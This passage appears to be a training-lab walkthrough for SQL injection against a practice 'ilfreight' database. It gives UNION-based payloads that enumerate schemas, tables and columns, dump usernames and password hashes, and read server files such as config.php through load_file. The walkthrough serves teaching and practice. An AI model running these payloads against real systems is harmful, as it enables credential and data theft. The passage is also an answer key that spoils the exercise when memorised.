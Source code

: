 8. Use a Union injection to get the result of 'user()'

<figure><img src="../../../.gitbook/assets/union-user.png" alt=""><figcaption></figcaption></figure>

9. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

```sql
cn' union select 1,schema_name,3,4 from information_schema.schemata-- -
cn' union select 1,table_name,3,4 from information_schema.tables-- -
cn' union select 1,column_name,3,4 from information_schema.columns where table_name='users'-- -
cn' union select 1,username,password,4 from ilfreight.users-- -
```

<figure><img src="../../../.gitbook/assets/newuser-password.png" alt=""><figcaption></figcaption></figure>

10. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

```sql
cn' union select 1,load_file("/var/www/html/search.php"),3,4-- -
cn' union select 1,load_file("/var/www/html/config.php"),3,4-- -
```
